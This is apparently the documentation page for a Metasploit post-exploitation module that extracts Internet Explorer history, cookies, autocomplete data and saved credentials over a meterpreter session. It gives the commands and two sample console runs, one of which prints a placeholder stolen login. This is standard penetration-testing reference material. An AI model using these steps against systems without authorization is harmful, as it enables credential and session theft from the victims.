 ## Vulnerable Application

  This post-exploitation module will extract saved user data from Internet Explorer. For IE versions of 7 and newer the module will try to extract and decrypt saved credentials as well.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_ie`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted IE browser data in the loot files

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - History
  - Cookies
  - Autocomplete data
  - Credentials **(only for >= IE7)**
    - HTTP auth credentials
    - Saved form credentials

## Example Scenario

  **Using the module with an earlier version than IE7 (IE6)**

  In this scenario the module won't be able to extract credential data.

  ```
  msf exploit(handler) > use post/windows/gather/enum_ie
  msf post(enum_ie) > set SESSION 1
  SESSION => 1
  msf post(enum_ie) > run

  [*] IE Version: 6.0.2900.5512
  [-] This module will only extract credentials for >= IE7
  [*] Retrieving history.....
          File: C:\Documents and Settings\user\Local Settings\History\History.IE5\index.dat
  [*] Retrieving cookies.....
          File: C:\Documents and Settings\user\Cookies\index.dat
  [*] Looping through history to find autocomplete data....
  [-] No autocomplete entries found in registry
  [*] Looking in the Credential Store for HTTP Authentication Creds...
  [*] Writing history to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031155122_default_10.0.2.15_ie.history_747359.txt
  [*] Writing cookies to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031155122_default_10.0.2.15_ie.cookies_795069.txt
  [*] Post module execution completed
  ```

  **Using the module with IE7+ (IE8)**

  In this scenario the module will try to extract credential data, display it in the console and save it in a loot file.

  ```
  msf exploit(handler) > use post/windows/gather/enum_ie
  msf post(enum_ie) > set SESSION 1
  SESSION => 1
  msf post(enum_ie) > run

  [*] IE Version: 8.0.7601.17514
  [*] Retrieving history.....
          File: C:\Users\IEUser\AppData\Local\Microsoft\Windows\History\History.IE5\index.dat
          File: C:\Users\IEUser\AppData\Local\Microsoft\Windows\History\Low\History.IE5\index.dat
  [*] Retrieving cookies.....
          File: C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Cookies\index.dat
          File: C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Cookies\Low\index.dat
  [*] Looping through history to find autocomplete data....
  [*] Looking in the Credential Store for HTTP Authentication Creds...
  [*] Writing history to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031201908_default_10.0.2.15_ie.history_555694.txt
  [*] Writing cookies to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031201908_default_10.0.2.15_ie.cookies_216987.txt
  [*] Writing gathered credentials to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031201908_default_10.0.2.15_ie.user.creds_355504.txt

  Credential data
  ===============

   Type           Url                                     User           Pass
   ----           ---                                     ----           ----
   Auto Complete  https://wordpresssite.net/wp-login.php  sampleUser     P455w0rd
   Auto Complete  https://wordpresssite.net/wp-login.php  sampleUser     P455w0rd

  [*] Post module execution completed
  ```

  The extracted history data would in both scenarios for example look like this:

  ```
  History data
  ============

   Date Modified              Date Accessed              Url
   -------------              -------------              ---
   2011-11-20T23:59:02+00:00  2011-11-20T23:59:02+00:00  about:Home
   2016-10-31T14:42:05+00:00  2016-10-31T14:42:05+00:00  http://go.microsoft.com/fwlink/?LinkId=54729&clcid=0x0407
   2016-10-31T14:42:06+00:00  2016-10-31T14:42:06+00:00  http://de.msn.com/?ocid=iefvrt
   2016-10-31T14:42:08+00:00  2016-10-31T14:42:08+00:00  http://www.microsoft.com/isapi/redir.dll?prd=ie&pver=6&ar=msnhome
   2016-10-31T14:42:23+00:00  2016-10-31T14:42:23+00:00  http://www.msn.com/de-de?ocid=iefvrt
   2016-10-31T14:47:42+00:00  2016-10-31T14:47:42+00:00  file:///E:/text.txt
  ```
